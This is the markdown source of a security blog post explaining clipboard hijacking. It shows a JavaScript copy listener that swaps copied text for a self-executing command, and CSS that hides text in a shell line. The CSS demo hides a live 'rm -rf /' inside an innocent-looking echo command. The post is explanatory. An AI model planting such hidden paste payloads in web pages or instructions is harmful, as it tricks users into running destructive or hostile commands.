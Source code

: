 ```yaml
---

layout: post
title:  "On Ctrl-C Ctrl-V"
date:   2021-05-29 11:30:00
categories: Hacking 
---
```


Javascript is extremely powerful, to say the least. One of its often overlooked features is the `copy` event listener.

What damage can that do? Here, copy this 'innocent' command (*meant to be pasted into a shell*) and paste it somewhere.

<p id='fakecopy'><code>$ echo "innocent text"</code></p>

<script>
 document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
</script>

The text you just copied even has an `Enter` character, so the command will execute automatically if pasted in a shell, and **I will have control over this system before you can even comprehend what just went down**.

This is how the code works,

```javascript
document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
```

Think you'll be safe if by disabling Javascript? Sorry to burst your bubble but this can also be done with raw CSS.

<p id='fakecopy'> <code>$ echo <span style="font-size: 0;">; rm -rf / ; echo </span>"looks safe to me!"</code></p>

This is how that works,

```css
$ echo <span style="font-size: 0">; echo 'malicious command' ; echo </span>"looks safe to me!"
```
